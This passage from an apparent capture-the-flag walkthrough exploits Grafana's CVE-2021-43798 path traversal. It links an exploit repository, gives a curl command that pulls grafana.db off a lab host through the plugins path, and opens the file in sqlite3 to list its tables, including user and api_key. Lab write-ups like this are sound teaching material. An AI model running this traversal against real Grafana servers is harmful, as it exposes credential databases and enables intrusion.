 ![Grafana-website.png](/Assets/Pictures/Ambassador/Grafana-website.png)

[Here](https://github.com/jas502n/Grafana-CVE-2021-43798) is a link that will help us get the database file and inspect it on our local.

```bash
➜  curl --path-as-is http://10.10.11.183:3000/public/plugins/alertGroups/../../../../../../../../var/lib/grafana/grafana.db --output grafana.db
➜  file grafana.db 
grafana.db: SQLite 3.x database, last written using SQLite version 3035004, file counter 551, database pages 161, cookie 0x119, schema 4, UTF-8, version-valid-for 551
➜  sqlite3 grafana.db                     
SQLite version 3.37.2 2022-01-06 13:25:41             
Enter ".help" for usage hints.                        
sqlite> .tables                                          
alert                       login_attempt             
alert_configuration         migration_log             
alert_instance              ngalert_configuration     
alert_notification          org                       
alert_notification_state    org_user                  
alert_rule                  playlist                  
alert_rule_tag              playlist_item             
alert_rule_version          plugin_setting            
annotation                  preferences               
annotation_tag              quota                     
api_key                     server_lock               
cache_data                  session                   
dashboard                   short_url                 
dashboard_acl               star                      
dashboard_provisioning      tag                       
dashboard_snapshot          team                      
dashboard_tag               team_member               
dashboard_version           temp_user                 
data_source                 test_data                 
kv_store                    user                      
library_element             user_auth                 
library_element_connection  user_auth_token
```
{: .nolineno }
